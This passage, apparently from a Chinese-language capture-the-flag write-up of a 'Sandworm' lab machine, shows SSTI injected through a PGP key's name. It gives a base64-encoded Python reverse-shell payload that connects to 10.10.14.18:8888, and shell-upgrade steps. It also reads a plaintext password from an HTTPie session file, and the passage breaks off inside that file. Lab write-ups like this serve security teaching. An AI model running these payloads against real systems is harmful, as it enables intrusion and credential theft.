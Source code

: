 验证签名处，我们可以生成key然后使用公钥解密签名，在生成key的时候嵌入ssti payload

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/a157aa35-cefe-334c-132e-5069ad789e69.png)

然后再使用这个公钥对消息进行签名

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/36af49f2-b35f-e118-cd71-3f84e442b38b.png)

将公钥导出

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/ac946f0b-deaf-2462-5e3e-358f30409bc8.png)

将公钥和签名提交到网站

它payload成功被执行了

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/76312764-9e66-fbcd-6590-d3ae238cbe1a.png)

hacktricks随便来个ssti payload

	{{ cycler.__init__.__globals__.os.popen('id').read() }}


![file](https://blog.apt250.zip/wp-content/uploads/2023/12/2f414f11-585d-38d8-1beb-c89dd003c448.png)

来个python3 reverse shell payload，base64一下

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/c0e79bbd-af63-9e88-025e-6be6d209f186.png)

最终ssti payload

	{{ cycler.__init__.__globals__.os.popen('echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjE4Iiw4ODg4KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiL2Jpbi9iYXNoIikn | base64 -d | bash').read() }}

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/95e04525-8916-71d0-7687-370f74ba4e37.png)

nc监听，它如期而至

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/b26316c2-4a7b-92d0-1e82-7092a8b867b3.png)

但这个shell似乎有点问题，无法回车，我们只需要升级一下这个shell

	ctrl + z
	stty raw -echo;fg

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/3186ab62-c17f-8938-6b4a-109a0a14fe20.png)

但这个shell是受限制的，能做的事情很有限

## 本地横向移动 -> silentobserver

在家目录的.config目录下的httpie/里面我们能够找到一个admin.json文件

	atlas@sandworm:~/.config/httpie/sessions/localhost_5000$ cat ./admin.json
	{
		"__meta__": {
			"about": "HTTPie session file",
			"help": "https://httpie.io/docs#sessions",
			"httpie": "2.6.0"
		},
		"auth": {
			"password": "quietLiketheWind22",
			"type": null,
			"username": "silentobserver"
		},
		"cookies": {
			"session": {